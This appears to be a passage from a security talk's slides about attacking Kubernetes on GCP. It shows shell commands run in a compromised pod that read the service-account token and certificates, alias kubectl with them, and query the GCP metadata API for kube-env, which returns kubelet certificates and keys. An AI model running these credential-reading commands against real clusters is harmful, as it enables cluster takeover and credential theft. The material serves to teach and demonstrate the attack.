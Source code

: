 [.code-highlight: none]
[.code-highlight: 1-8]
[.code-highlight: 10-11]
[.code-highlight: 13-17]

```coffeescript
root@hckd:/# TOKEN=`cat /run/secrets/kubernetes.io/serviceaccount/token`
root@hckd:/# CERT=`cat /run/secrets/kubernetes.io/serviceaccount/ca.crt
root@hckd:/# NS=`cat /run/secrets/kubernetes.io/serviceaccount/namespace`
root@hckd:/# alias khack=kubectl                            \
#             --token=$TOKEN                                  \
#             --certificate-authority= $CERT                  \
#             -n $NS                                          \
#             --server=https://$KUBERNETES_PORT_443_TCP_ADDR  \

root@hckd:/# khack auth can-i get pods
no

root@hckd:/# khack get pods
Error from server (Forbidden): pods is forbidden: User 
"system:serviceaccount:default:default" cannot list resource "pods" in 
API group "" in the namespace "default"
```
---
### GCP Metadata API

[.code-highlight: none]
[.code-highlight: all]

Internal Metadata API:
* Method: GET
* Url: http://metadata.google.internal/
* Headers: 
    - Metadata-Flavor: Google

Kube-env Attribute Endpoint:
-> http://metadata.google.internal/computeMetadata/v1/instance/attributes/kube-env

```python
root@hckd:/# curl -s -H 'Metadata-Flavor: Google' $KUBE_ENV_URL
...
CA_CERT: LS0tLS1CRUdJTiBDRVJUSUZJ...
KUBELET_CERT: LS0tLS1CRUdJTiBDRVJ...
KUBELET_KEY: LS0tLS1CRUdJTiBSU0Eg...
...
```

---
### 2. Attack Vector
## GCP Credentials

List/Describe Nodes
![inline 100%](./screenshots/gcp-access-list.png)
